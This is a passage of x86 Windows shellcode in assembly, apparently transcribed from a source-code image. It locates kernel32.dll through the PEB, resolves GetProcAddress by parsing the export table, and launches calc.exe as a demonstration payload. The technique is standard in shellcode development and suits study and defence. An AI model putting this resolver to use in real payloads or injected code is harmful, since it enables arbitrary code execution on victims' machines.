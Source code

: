 ```c
    push dword [ebp-4] ; [ebp-4] -> Kernel32.DLL Base Addr
    call dword [ebp-8] ; [ebp-8] -> GetProcAddress Addr
    push 0                ; WinExec uCmdShow
    push 0x6578652e       ; exe. : 6578652e
    push 0x636c6163       ; clac : 636c6163
    push esp
    call eax
    nop
    nop
    add esp,0x12
    mov esp,ebp
    pop ebp
    ret

GetKernel32BaseAddr:
    push ebp
    mov ebp,esp
    sub esp,0x40
    xor ebx, ebx            ; EBX = 0x00000000
    mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
    mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
    mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
    mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
    mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
    mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
    add esp,0x40
    mov esp,ebp
    pop ebp
    ret

GetProcAddrFuncAddr:
    push ebp
    mov ebp,esp
    sub esp,0x40
    xor ecx, ecx
    mov ebx, [ebp + 8] ; EBX = Base address
    mov edx, [ebx + 0x3c]    ; EDX = DOS->e_lfanew
    add edx, ebx             ; EDX = PE Header
    mov edx, [edx + 0x78]    ; EDX =  export table
    add edx, ebx             ; EDX = Export table
    mov esi, [edx + 0x20]    ; ESI =  namestable
    add esi, ebx             ; ESI = Names table
    xor ecx, ecx             ; EXC = 0
    Get_Function:
            inc ecx                  ; Increment the ordinal
            lodsd                    ; Get name 
            add eax, ebx             ; Get function name
            cmp dword [eax], 50746547h       ; GetP
            jnz Get_Function
            cmp dword [eax + 0x04], 41636f72h ; rocA
            jnz Get_Function
            cmp dword [eax + 0x08], 65726464h ; ddre
            jnz Get_Function
    mov esi, [edx + 0x24]                ; ESI =  ordinals
    add esi, ebx                         ; ESI = Ordinals table
    mov cx, [esi + ecx * 2]              ; Number of function
    dec ecx
    mov esi, [edx + 0x1c]                ;  address table
    add esi, ebx                         ; ESI = Address table
    mov edx, [esi + ecx * 4]             ; EDX = Pointer()
    add edx, ebx                         ; EDX = GetProcAddress
    mov eax,edx
    add esp,0x40
```